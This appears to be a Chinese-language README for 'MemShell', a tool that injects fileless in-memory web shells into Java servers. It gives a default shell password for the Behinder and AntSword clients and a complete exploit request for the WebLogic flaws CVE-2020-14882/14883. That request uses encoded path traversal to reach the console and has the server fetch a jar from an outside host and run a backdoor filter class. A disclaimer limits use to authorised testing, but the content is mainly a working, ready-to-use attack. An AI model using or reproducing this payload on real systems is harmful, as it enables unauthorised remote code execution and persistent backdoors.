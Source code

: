 # MemShell
## 免责声明

本工具旨在帮助企业快速定位漏洞修复漏洞,仅限授权安全测试使用!
严格遵守《中华人民共和国网络安全法》,禁止未授权非法攻击站点!

## 使用场景

冰蝎和蚁剑默认密码`Crilwa`

1. 代码执行，例如可以调用`URLClassLoader`远程加载类，便可以无文件落地注入内存马。
2. JavaAgent注入（需要文件落地）

### CVE-2020-14882&CVE-2020-14883

例如下面的payload，可以进行代码执行，加载远程恶意代码。

```http
GET /console/css/%25%32%65%25%32%65%25%32%66consolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.net.URLClassLoader u = new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://192.168.220.1:8000/MemShell-1.0-SNAPSHOT.jar")});u.loadClass("Inject.WeblogicInjectFilterShell").newInstance(); u.close();"); HTTP/1.1
```

![](images/B5RFR1$H]VU@5{(@)]8}30B.png)

![image-20230301151252935](images/image-20230301151252935.png)

